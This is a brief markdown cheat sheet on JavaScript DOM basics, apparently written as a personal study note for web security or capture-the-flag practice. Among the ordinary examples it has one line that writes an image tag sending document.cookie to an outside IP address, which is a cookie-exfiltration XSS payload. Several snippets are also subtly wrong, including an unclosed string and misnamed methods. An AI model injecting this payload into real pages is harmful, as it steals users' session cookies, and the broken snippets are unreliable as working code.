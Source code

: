 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> document.getElementById('1');
> document.getElementByTagName('div');
> document.getElementByClassName('list-items');
> document.querySelectorAll('div');
> 
> document.write('something');
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
> 
